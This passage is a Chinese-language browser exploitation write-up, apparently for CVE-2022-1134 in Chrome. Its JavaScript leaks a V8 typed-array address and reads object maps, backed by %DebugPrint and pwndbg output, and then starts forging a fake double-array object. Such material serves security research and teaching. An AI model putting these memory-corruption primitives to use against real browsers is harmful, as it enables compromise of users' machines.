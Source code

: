 ```js
    let v8AddrMatrix = new SubMatrix(mainWorldWrapper);
    let v8TypedArrayAddr = Number(ftoi(readFrom(loopCount, v8AddrMatrix)));
```

此时我们能够得到 `imgData`  的地址，不妨通过调试来确定一下：

```js
    console.log(v8TypedArrayAddr);
    %DebugPrint(imgData);
```

将会得到如下结果：

```js
DebugPrint: 0x325a081135f9: [JSTypedArray]  
- map: 0x325a083034b9 <Map(UINT8_CLAMPEDELEMENTS)> [FastProperties]  
- prototype: 0x325a082d0eb1 <Object map = 0x325a083034e1>  
- elements: 0x325a080033c9 <ByteArray[0]> [UINT8_CLAMPEDELEMENTS]  
- embedder fields: 2  
- buffer: 0x325a081135b9 <ArrayBuffer map = 0x325a08302d61>  
- byte_offset: 0  
- byte_length: 48  
- length: 48  
- data_ptr: 0x325c00018000  
  - base_pointer: (nil)  
  - external_pointer: 0x325c00018000  
- properties: 0x325a08002249 <FixedArray[0]>  
- All own properties (excluding elements): {}  
- elements: 0x325a080033c9 <ByteArray[0]> {  
       0-47: 0  
}  
- embedder fields = {  
   711816412, aligned pointer: 0x7fa054dae9b8  
   1338892, aligned pointer: 0x3ab00028dc18  
}

[21658:21658:1012/135648.555281:INFO:CONSOLE(109)] "55362263791097", source: file:///home/tokameine/Desktop/chrome-debug/CVE_2022_1134/other_chrome/demoexp.html (1  
09)

pwndbg> tel 55362263791097  
00:0000│  0x325a081135f9 ◂— 0xc908002249083034  
01:0008│  0x325a08113601 ◂— 0x81135b9080033 /* '3' */  
```

通过这种方法确定了一个 V8 对象地址后，由于整个 V8 的内存是线性储存，因此其他所有的对象地址都能够通过该地址加减一个偏移来得到。

> 但是这种方案的效率不高，加减偏移计算地址的方法很可能在不同版本或不同参数等因素浮动，一旦 exp 有一点变动就要重新调试计算，因此更优的方式是通过上述方案直接去读取出实际地址，这样读取的结果总是实时的，因此不容易出现问题。

同理，通过这种读取方式，我们还可以读取出其他对象的 `map` ，这能为我们之后用于伪造对象提供帮助：

```js
    var imgDataStore = new ArrayBuffer(48);
    var imgData = new Uint8ClampedArray(imgDataStore);
    var doubleArr = [1.1, 2.2, 3.3, 4.4, 5.5];
    var objArr = [imgData];

    let doubleArrMatrix = new SubMatrix(v8TypedArrayAddr + 0x74 - 1);
    let doubleMap = ftoi32(readFrom(loopCount, doubleArrMatrix))[1];

    var doubleArrElementDefault = (v8TypedArrayAddr + 0x60) >> 0;
    var doubleArrDefault = i32tof(doubleArrElementDefault, 0x1000);

    //map + properties
    doubleArr[0] = i32tof(doubleMap, 0x8002249);
    //elements + length
    doubleArr[1] = doubleArrDefault;
```